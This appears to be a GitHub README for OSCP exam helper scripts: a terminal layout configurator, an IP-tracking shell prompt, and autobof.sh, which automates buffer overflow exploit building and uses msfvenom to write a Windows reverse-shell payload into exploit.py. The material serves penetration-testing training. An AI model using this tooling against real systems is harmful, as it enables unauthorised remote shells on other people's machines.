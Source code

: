 # OSCP
## OSCP Ergonomic Scripts and Configs

__config.bak__ - A terminator config file that will be used to launch terminator and execute commands like ($ autorecon $ip) 
             across different IP folders using broadcast all mode.

__autoterm.sh__ - A script that will replace the placeholder ProjectX and #1,2,3,4,5 with the ProjectName and the target IP's.

```bash
# Example - terminators config file is reset using config.bak and reconfigured with the new projects IPs
# $./autoterm.sh
# Insert your Kali IP (Default: 127.0.0.1): 192.168.0.104
# Insert your Kali Port (Default: 22): 2222
# Setting Kali IP to 192.168.0.104
# Setting Kali SSH Port to 2222
# Project Name: R
# IPs: 10.10.10.23 10.10.10.5
# Terminator config successfully changed.

#!/bin/bash
# Restore original config
cp ~/.config/terminator/config.bak ~/.config/terminator/config
count=0 #Counter for Number of IPs

# This host should be accessible using preset ssh-keys. SSH Password setup will break terminator.
read -a kalibox -p 'Insert your Kali IP (Default: 127.0.0.1): '
# The ssh service on this host should be running on port 22 by default
read -a kaliport -p 'Insert your Kali Port (Default: 22): ' 

if [ -z "$kalibox" ]
then 
  kalibox="127.0.0.1";
fi 

echo "Setting Kali IP to ${kalibox}"

if [ -z "$kaliport" ]
then 
  kaliport="22";
fi

echo "Setting Kali SSH Port to ${kaliport}"

read -a project -p 'Project Name: '
read -a ips -p 'IPs: '

if [ -z "$project" ]
then 
  echo "Project Name cannot be empty"
  exit 0
fi

if [ -z "$ips" ]
then 
  echo "Please specify some IPs"
  exit 0
fi 

for elem in ${ips[@]}
do
  if [[ ! "$elem" =~ ^[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}$ ]]; then 
    echo "Please specify real IPs"
    exit 0
  fi 
  count=$((count+1))
  sed -i "s/127.0.0.1/$kalibox/g" ~/.config/terminator/config
  sed -i "s/2222/$kaliport/g" ~/.config/terminator/config
  sed -i "s/projectX/$project/g" ~/.config/terminator/config 
  sed -i "s/#$count/$elem/g" ~/.config/terminator/config 
done

echo 'Terminator config successfully changed.'
```


__autobof.sh__ - A script of generating 'full hex shellcode characterset' -> 'hex shellcode with deducted badchars' -> 'msfpayload'. Autobof will automatically generate payloads and modify exploit.py payload variable. autobof's primary use is to aid in exploit creation while exploring vulnerable binaries with debuggers such as immunity or edb.

__badcharset.py__ - A script for generating the full hex shellcode 

__exploit.py__ - A python script for testing for simple buffer overflow

```bash
# Author: Andrew Abwoga
# This script will automatically generate a characterset without the bad characters the user has specified
# Specify outlying bad characters (from mona): 01 02 03
# Specify lhost (for venom): 127.0.0.1
# [+] Bad character shellcode: \x01\x02\x03
# [+] Bad character deduction: 
# payload = "\\x04\\x05\\x06\\x07\\x08\\x09\\x0a\\x0b\\x0c\\x0d\\x0e\\x0f\\x10\\x11\\x12\\x13\\x14\\x15\\x16\\x17\\x18\\x19\\x1a\\x1b\\x1c\\x1d\\x1e\\x1f\\x20\\x21\\x22\\x23\\x24\\x25\\x26\\x27\\x28\\x29\\x2a\\x2b\\x2c\\x2d\\x2e\\x2f\\x30\\x31\\x32\\x33\\x34\\x35\\x36\\x37\\x38\\x39\\x3a\\x3b\\x3c\\x3d\\x3e\\x3f\\x40\\x41\\x42\\x43\\x44\\x45\\x46\\x47\\x48\\x49\\x4a\\x4b\\x4c\\x4d\\x4e\\x4f\\x50\\x51\\x52\\x53\\x54\\x55\\x56\\x57\\x58\\x59\\x5a\\x5b\\x5c\\x5d\\x5e\\x5f\\x60\\x61\\x62\\x63\\x64\\x65\\x66\\x67\\x68\\x69\\x6a\\x6b\\x6c\\x6d\\x6e\\x6f\\x70\\x71\\x72\\x73\\x74\\x75\\x76\\x77\\x78\\x79\\x7a\\x7b\\x7c\\x7d\\x7e\\x7f\\x80\\x81\\x82\\x83\\x84\\x85\\x86\\x87\\x88\\x89\\x8a\\x8b\\x8c\\x8d\\x8e\\x8f\\x90\\x91\\x92\\x93\\x94\\x95\\x96\\x97\\x98\\x99\\x9a\\x9b\\x9c\\x9d\\x9e\\x9f\\xa0\\xa1\\xa2\\xa3\\xa4\\xa5\\xa6\\xa7\\xa8\\xa9\\xaa\\xab\\xac\\xad\\xae\\xaf\\xb0\\xb1\\xb2\\xb3\\xb4\\xb5\\xb6\\xb7\\xb8\\xb9\\xba\\xbb\\xbc\\xbd\\xbe\\xbf\\xc0\\xc1\\xc2\\xc3\\xc4\\xc5\\xc6\\xc7\\xc8\\xc9\\xca\\xcb\\xcc\\xcd\\xce\\xcf\\xd0\\xd1\\xd2\\xd3\\xd4\\xd5\\xd6\\xd7\\xd8\\xd9\\xda\\xdb\\xdc\\xdd\\xde\\xdf\\xe0\\xe1\\xe2\\xe3\\xe4\\xe5\\xe6\\xe7\\xe8\\xe9\\xea\\xeb\\xec\\xed\\xee\\xef\\xf0\\xf1\\xf2\\xf3\\xf4\\xf5\\xf6\\xf7\\xf8\\xf9\\xfa\\xfb\\xfc\\xfd\\xfe\\xff"
# [+] Modifying exploit.py payload with characterset without bad characters...
#!/bin/bash

echo 'Rule: Provide empty inputs to generate a full characterset payload.'
echo 'Rule: Provide pattern length only as input to generate the pattern.'
echo 'Rule: Put exploit.py and badcharset.py on the same path as this file.'
read -a plength -p 'Specify (pattern length + 400) (from fuzzer.py): '
read -a badchars -p 'Specify outlying bad characters (from mona): ' 
read -a lhost -p 'Specify lhost (for venom): '

sed -i "/payload =/d" exploit.py #deletes payload variables from exploit.py for reuse
sed -i "/payload +=/d" exploit.py #deletes payload variables from exploit.py for reuse
sed -i "/padding = \"\"/a payload = \"\"" exploit.py #appends payload variable

if [ -n "$plength" ]
then
msfpattern=$(msf-pattern_create -l $plength)
echo '[+] Modifying exploit.py payload with msf-pattern...'
cat exploit.py | sed -i 's/payload = ".*"$/payload = ""/g' exploit.py
sed -i "/payload = \"\"/c payload = \"$msfpattern\"" exploit.py
echo '[+] Pattern payload: '
echo $msfpattern
exit 0
fi

if [ -z "$badchars" ]
then
echo "[+] Full bad characterset payload: "
echo "payload = \"$(python2 badcharset.py)\""

echo "[+] Modifying exploit.py payload with full characterset..."
cat exploit.py | sed -i 's/payload = ".*"$/payload = ""/g' exploit.py
replacement=$(echo -E "payload = \"$(python2 badcharset.py)\"" | gawk '/\\/{gsub(/\\/, "\\\\")};{print}' ) 
sed -i "/payload = \"\"/c $replacement" exploit.py
exit 0
fi

if [ -n "$badchars" ] && [ -z "$lhost" ]
then
echo -n "[+] Bad character shellcode: "
bc="$(echo ${badchars[@]} | sed 's/ /\\x/g' | sed 's/^/\\x/g' | tr '' '\n')"
echo "$bc"

echo "[+] Bad character deduction: "
pattern=$(for i in ${badchars[@]}; do echo -n "s+x$i\\\++g; " ; done)
badcharsreplacement=$(echo -E "payload = \"$(python2 badcharset.py)\"" | sed "$pattern" | gawk '/\\/{gsub(/\\/, "\\\\")};{print}')
echo $badcharsreplacement

echo "[+] Modifying exploit.py payload with characterset without bad characters..."
cat exploit.py | sed -i 's/payload = ".*"$/payload = ""/g' exploit.py
sed -i "/payload = \"\"/c $badcharsreplacement" exploit.py
exit 0
fi

if [ -n "$lhost" ]
then
echo -n '[+] Generating venom...'

cat exploit.py | sed -i 's/payload = ".*"$/payload = ""/g' exploit.py
bc="$(echo ${badchars[@]} | sed 's/ /\\x/g' | sed 's/^/\\x/g' | tr '' '\n')"
msfoutput=$(msfvenom -p windows/shell_reverse_tcp LHOST=$lhost LPORT=4444 EXITFUNC=thread  -v payload -b "$bc" -f python)
venom=$(echo -n -E $msfoutput | gawk '/\\/{gsub(/\\/, "\\\\")};{print}' | sed 's/payload/\\\npayload/g')

echo '[+] Modifying exploit.py with payload...'
sed -i -e "/payload = \"\"/c $venom" exploit.py

echo -n '[+] Generated venom output: '
echo "$(echo $msfoutput | sed 's/payload/\npayload/g')"
exit 0
fi
```
__dollar_ip_prompt_command.sh__ - Has a PROMPT_COMMAND env variable that will track a directory named using an IP on the current path (pwd)
                             and it will set the $ip env variable to that IP named directory. The code should be place on .bashrc or .zshrc. For zsh you have to add the line ```bash precmd() { eval "$PROMPT_COMMAND" }``` at the end of the .zshrc file

```bash
# Example - $ip env variable is automatically set using the code below
# $ mkdir 10.10.10.5
# $ cd 10.10.10.5
# $ autorecon $ip 

function prompt_command {
	unset ip #unset IP to make sure its not assigned
	nfields=$(echo $PWD | awk -F '/' '{print NF}') #get the number of directories along the path
	for i in $(seq $nfields) #iterate through the number of directories in the path
	do
		base=$(echo $PWD | awk -v i=$i -F '/' '{print $i}') #get a specific directory
		if [[ $base =~ ^[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}$ ]]; then #if that directory is an ip
			export ip=$base #export that ip 
		fi
	done
}
export PROMPT_COMMAND=prompt_command
```

[![Watch the video](https://i1.ytimg.com/vi/vRj62ltRSiY/sddefault.jpg)](https://www.youtube.com/watch?v=vRj62ltRSiY "Click to watch demo on Youtube")

